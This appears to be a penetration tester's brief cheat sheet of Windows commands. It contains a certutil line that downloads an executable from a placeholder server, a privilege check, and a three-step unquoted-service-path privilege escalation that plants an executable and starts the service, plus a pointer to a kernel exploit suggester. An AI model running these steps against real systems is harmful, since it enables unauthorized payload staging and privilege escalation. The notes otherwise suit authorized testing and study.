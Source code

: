 # Windows Snippets

wget for Windows:
```
certutil.exe -urlcache -f http://SERVER/FILE.exe OUTFILE.exe
```

check for impersonate privs and other privs:
```
whoami /priv
```

Run `dir` recursively:
```
gci -recurse .
```

Unquoted Service Paths:
```
sc qc SERVICENAME # Check if BINARY_PATH_NAME calls an unquoted service path and see if is a priv esc opp
./accesschk /accepteula -uwdq "C:\DIR\FROM\ABOVE" # check write perms of a subdir of BINARY_PATH_NAME so we can commandeer the service call w our own executable
net start SERVICENAME # start the service after dropping our executable into the path
```

Kernel Priv Esc:
- save `systeminfo` output and run through the [Windows Exploit Suggester_new](https://github.com/bitsadmin/wesng)
